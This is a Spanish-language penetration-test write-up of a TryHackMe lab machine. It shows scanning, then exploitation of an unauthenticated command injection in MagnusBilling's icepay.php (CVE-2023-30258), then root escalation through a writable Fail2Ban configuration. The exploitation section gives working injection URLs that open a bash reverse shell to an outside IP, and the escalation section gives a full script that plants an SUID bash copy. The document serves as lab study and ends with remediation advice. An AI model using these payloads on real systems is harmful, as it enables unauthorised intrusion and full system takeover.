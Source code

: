 ## Documentación Ethical Hacking

### 1. Introducción

Se llevó a cabo un análisis de seguridad sobre una máquina accesible en la red interna de TryHackMe, con IP 10.10.154.92. El objetivo fue identificar vectores de ataque, explotar vulnerabilidades y obtener acceso privilegiado, documentando cada paso del proceso incluyendo intentos fallidos para futuras referencias.

---

### 2. Escaneo inicial

**Herramienta utilizada**: Nmap
**Comandos ejecutados**:
```
nmap -Pn -n -sS -p- --min-rate 5000 -oG nmap 10.10.154.92
nmap -sVC -p22,80,3306,5038 -oG os 10.10.154.92
```

**Resumen de resultados:**
```
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.56 ((Debian))
3306/tcp  open  mysql   MariaDB (acceso no autorizado)
5038/tcp  open  asterisk Asterisk Call Manager 2.10.6
```

---

### 3. Enumeración

**HTTP (puerto 80):**
- Navegación web reveló una instancia del sistema MagnusBilling en la ruta `/mbilling`.
- Inspección de scripts JavaScript y rutas web no reveló archivos sensibles.
- `robots.txt`  no contenían información útil.

**MySQL (3306):** Acceso denegado, sin banners útiles.
**5038 – Asterisk AMI:** Servicio identificado pero sin autenticación anónima permitida.
**Búsqueda de vulnerabilidades:**
- `searchsploit` no arrojó resultados relevantes.
- Búsqueda manual en Google mostró una vulnerabilidad crítica:
    - **CVE-2023-30258**: MagnusBilling posee inyección de comandos no autenticada en `icepay.php`
        - https://attackerkb.com/topics/DFUJhaM5dL/cve-2023-30258

**Vectores fallidos:**
- Fuzzing manual en directorios y endpoints de MagnusBilling sin resultados positivos.
- Uso de gobuster y wfuzz no encontró rutas sensibles adicionales.

---
### 4. Explotación
**Exploit funcional:**
Prueba:
```
http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;sleep%203;ls%20a

http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;sleep%2030;ls%20a

http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;bash -c 'bash -i >& /dev/tcp/10.6.17.22/4444 0>&1'

http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;bash -c 'bash -i >& /dev/tcp/10.6.17.22/4444 0>&1';#
```
Exploit:
```
http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.6.17.22/4444%200%3E%261';%23
```
**Shell inversa establecida:**
```
nc -lvnp 4444
```
**Mejora de TTY:**
```
Ctrl+Z
stty raw -echo && fg
script /dev/null -c bash
export TERM=xterm
reset
```

**Métodos fallidos de explotación:**
- Uso de payloads con `php-reverse-shell.php` sin éxito.
- Uso directo del módulo de Metasploit sin establecer sesión.

---
### 5. Escalada de privilegios
**Usuario inicial:** `asterisk`
**Evaluación de sudo:**
```
sudo -l
```
Resultado:
```
Defaults!/usr/bin/fail2ban-client !requiretty
```
**Restricciones:**
- No se podía escribir en `/etc/fail2ban` directamente (error de permisos).
- `nano` no permitía guardar cambios sin privilegios.

**Explotación exitosa mediante Fail2Ban:**  
Condiciones cumplidas:
- Se tenía permiso de escritura en `/etc/fail2ban/action.d`.
- Se podía reiniciar Fail2Ban mediante `sudo`.

**Procedimiento completo:**

Basado en esta escalamiento https://juggernaut-sec.com/fail2ban-lpe/
```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/

cat > /tmp/script <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script

cat > /tmp/fail2ban/action.d/demo.conf <<'EOF'
[Definition]
actionstart = /tmp/script
EOF

cat >> /tmp/fail2ban/jail.local <<'EOF'
[demo]
enabled = true
action = exploit
EOF

cat > /tmp/fail2ban/filter.d/demo.conf <<'EOF'
[Definition]
EOF

sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```
**Root shell obtenida con:**
```
/tmp/bash -p
```
**Intentos fallidos de escalada:**
- Uso directo de `fail2ban-client set sshd action /tmp/...` resultó en error de validación.
- Edición directa de `iptables-multiport.conf` falló por permisos en sed temporal.

---
### 6. Hallazgos clave
- Acceso inicial no autenticado mediante vulnerabilidad crítica en `icepay.php` (CVE-2023-30258).
- Configuración insegura de Fail2Ban permitió escalar a root sin password.
- Bit SUID en `/tmp/bash` permitió acceso permanente como root tras reinicio del servicio.
---
### 7. Pasos siguientes
- Validar presencia de otras configuraciones SUID en el sistema.
- Revisar logs de `/var/log/auth.log` y `/var/log/fail2ban.log` para rastrear actividad del atacante.
- Eliminar `/tmp/bash` y restaurar configuración original de Fail2Ban.
---
### 8. Conclusión
La máquina fue comprometida a través de una vulnerabilidad conocida en MagnusBilling. Una vez dentro, se aprovechó una configuración insegura del servicio Fail2Ban para escalar privilegios. Este caso demuestra cómo una mala configuración de servicios comunes, combinada con software desactualizado, puede derivar en una toma total del sistema. Se recomienda:
- Aplicar parches de seguridad en MagnusBilling.
- Restringir permisos de escritura en `/etc/fail2ban`.
- Auditar configuraciones sudo y servicios con privilegios elevados.